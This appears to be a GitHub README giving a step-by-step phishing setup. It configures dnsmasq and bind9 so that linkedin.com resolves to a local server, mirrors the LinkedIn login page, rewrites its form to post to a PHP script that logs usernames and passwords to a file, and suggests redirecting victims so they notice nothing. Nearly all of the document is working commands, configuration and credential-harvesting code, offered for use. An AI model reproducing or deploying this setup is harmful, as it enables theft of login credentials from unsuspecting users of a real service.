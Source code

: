 # Configuration Steps
## 1. Install required softwares
```
#sudo apt install apache2
#sudo apt install bind9
#sudo apt install php
```

## 2. Configure dnsmasq to share the network interface
```
#sudo nano /etc/dnsmasq.conf
```
add "bind-interfaces" in front the interface you set
```
bind-interfaces
interface=wlan0
dhcp-range=192.168.2.2,192.168.2.20,255.255.255.0,24h
```
after this step, bind9 service able to listen the IP for DNS server

## 3. Establish Phishing Website
a. Download web
You may download any website directly and modify it instead of write codes by yourself.
As an example:
```
#wget -mk https://www.linkedin.com
```
b. Move web to right path
Now the html file have been download to local. Move the file to apache2 server path
```
sudo mv Desktop/www.linkedin.com/index.html /var/www/html/
```
To hijack userdata, we may modify the action when user click submit or login button.
You will need to find where's the action in html file.
c. Modify action of submit action
```
#sudo nano /var/www/html/index.html
```
As an example, LinkedIn page using an form whose class in "sign-in-form", modify the action to "get.php". (We will create the php file later)
Also, you need notice the name or if for the entry box. For LinkedIn, the name are "session_key" and "session_password".
d. create php file
The name should the same as you modified in index.html, here, as the example, it will be get.php
```
#sudo nano /var/www/html/get.php
```
Add below codes to the file. It will record the username and password user inputed in a local file.
```
<?php
$username = $_POST['session_key'];
$password = $_POST['session_password'];
$TEXT = 'Username:'.$username." Password:".$password."\n";
$fo = fopen("home/pi/Desktop/password.text","a+") or die("something wrong");
fwrite($fo,$TEXT);
fclose($fo);
?>
```
At the end of the php, you may redirect the post request to the right url, so user can finish his login action and won't notice anything wrong.
In default, the php file will not have access to write in files, so we need do this step to authorize it.
```
#sudo chown -R www-data /home/pi/Desktop
```
## 4. DNS Configuration
a. set configuration path
```
sudo nano /etc/bind/named.conf.options
```
Add below statement in "options" block after "directory" pahth.
```
Dump-file "var/cache/bind/dump.db";
```
Configure the path of action file when certain Domain or IP visited.
```
#sudo nano /etc/bind/named.conf
```
```
zone "linkedin.com"{
      type master;
      file "/etc/bind/linkedin.com.db"
};
zone "2.168.192.in-addr.arpa"{
      type master;
      file "/etc/bind/192.168.2.db";
};
```
Configure the forward lookup file
```
#sudo nano /etc/bind/linkedin.com.db
```
```
$TTL 600
#ORIGIN linkedin.com.
@ IN  SOA ns.linkedin.com. admin.linkedin.com.(
      2008111001
      8H
      2H
      4W
      1D)
@ IN  NS  ns.linkedin.com.
@ IN  MX  10 mail.linkedin.com.

www IN  A 192.168.2.1
mail IN  A 192.168.2.1
ns  IN  A 192.168.2.1
*.linkedin.com  IN  A 192.168.2.1
```
configure the reverse lookup file
```
#sudo nano /etc/bind/192.168.2.db
```
```
$TTL 3D
@ IN  SOA ns.likedin.com.  admin.linkedin.com.(
      2008111001
      8H
      2H
      4W
      1D)
@ IN  NS  ns.linkedin.com.
101 IN  PTR www.linkedin.com.
102 IN  PTR mail.linkedin.com.
10  IN  PTR ns.linkedin.com.
```
```
#sudo rndc flush
#sudo service bind9 restart
```
